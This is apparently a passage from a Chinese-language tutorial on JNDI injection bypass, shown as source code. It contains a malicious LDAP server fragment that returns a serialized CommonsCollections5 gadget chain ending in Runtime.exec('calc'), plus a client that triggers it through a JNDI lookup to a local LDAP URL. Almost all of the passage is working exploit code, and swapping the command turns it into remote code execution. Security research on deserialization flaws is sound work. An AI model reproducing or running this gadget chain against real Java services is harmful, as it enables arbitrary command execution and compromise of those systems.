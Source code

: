 ```
            e.addAttribute("javaSerializedData",CommonsCollections5());

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }

    private static byte[] CommonsCollections5() throws Exception{
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        return byteArrayOutputStream.toByteArray();
    }

}
```

客户端

```
package JNDI.Bypass;

import javax.naming.InitialContext;

public class server {
    public static void main(String[] args) throws Exception{
        Object object = new InitialContext().lookup("ldap://127.0.0.1:1389/DawnT0wn");
    }
}
```
